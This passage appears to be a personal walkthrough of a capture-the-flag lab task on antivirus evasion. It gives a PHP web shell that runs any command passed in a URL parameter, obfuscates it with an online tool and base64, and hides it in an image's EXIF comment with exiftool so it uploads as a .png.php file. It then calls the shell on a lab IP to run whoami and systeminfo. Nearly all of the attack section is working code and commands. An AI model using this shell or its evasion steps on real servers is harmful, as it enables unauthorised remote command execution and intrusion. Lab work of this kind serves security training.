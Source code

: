 What could be added to a file to ensure that only a user can open it (preventing AV from executing the payload)?

    Password



## Task 40  AV Evasion PHP Payload Obfuscation

PHP Payload

    <?php
        $cmd = $_GET["wreath"];
        if(isset($cmd)){
            echo "<pre>" . shell_exec($cmd) . "</pre>";
        }
        die();
    ?>


Obfuscate code with https://www.gaijin.at/en/tools/php-obfuscator

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649082217863_image.png)


obfuscated code:

    <?php $l0=$_GET["wreath"];if(isset($l0)){echo "<pre>".shell_exec($l0)."</pre>";}die();?>

actions needed to escape dollar signs

    <?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>

**Add comment to image with exiftool**

    exiftool -Comment="<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>" shell-exec.png.php

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649082491579_image.png)

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649082528373_image.png)


Access shell:

    http://10.200.90.100/resources/uploads/shell-exec.png.php
![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649082556842_image.png)


Test access:

    http://10.200.90.100/resources/uploads/shell-exec.png.php?wreath=whoami
![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649082616718_image.png)


Systeminfo:

    http://10.200.90.100/resources/uploads/shell-exec.png.php?wreath=systeminfo
![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649082663002_image.png)

